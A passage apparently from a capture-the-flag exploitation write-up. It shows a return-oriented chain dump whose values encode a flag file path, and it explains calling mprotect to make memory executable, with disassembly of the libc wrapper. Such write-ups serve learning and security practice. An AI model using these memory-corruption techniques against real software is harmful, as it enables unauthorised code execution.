 ```ruby
end
```

Which looks something like:

```
004696d6
13e800000002b8
004a6000
5a5a5a5a5a5a5a5a
00416e10
004696d6
2f656d6f682f0000
004a6008
5a5a5a5a5a5a5a5a
00416e10
004696d6
67616c662f667463
004a6010
5a5a5a5a5a5a5a5a
...
```

## Call `mprotect`

Once that's done, we need to call `mprotect` to make the memory executable. We can either use the `mprotect` syscall (`rax` = 0x0a), or the `mprotect` function, which is actually just a thin wrapper for the syscall:

```
.text:0000000000439450 mprotect        proc near               ; CODE XREF: alloc_new_heap+A9↑p
.text:0000000000439450                                         ; sysmalloc+3CD↑p ...
.text:0000000000439450 ; __unwind {
.text:0000000000439450                 mov     eax, 0Ah
.text:0000000000439455                 syscall                 ; LINUX - sys_mprotect
.text:0000000000439457                 cmp     rax, 0FFFFFFFFFFFFF001h
.text:000000000043945D                 jnb     short loc_439460
.text:000000000043945F                 retn
.text:0000000000439460 ; ---------------------------------------------------------------------------
.text:0000000000439460
.text:0000000000439460 loc_439460:                             ; CODE XREF: mprotect+D↑j
.text:0000000000439460                 mov     rcx, 0FFFFFFFFFFFFFFB8h
.text:0000000000439467                 neg     eax
.text:0000000000439469                 mov     fs:[rcx], eax
.text:000000000043946C                 or      rax, 0FFFFFFFFFFFFFFFFh
.text:0000000000439470                 retn
.text:0000000000439470 ; } // starts at 439450
.text:0000000000439470 mprotect        endp
```

We may as well just use that!

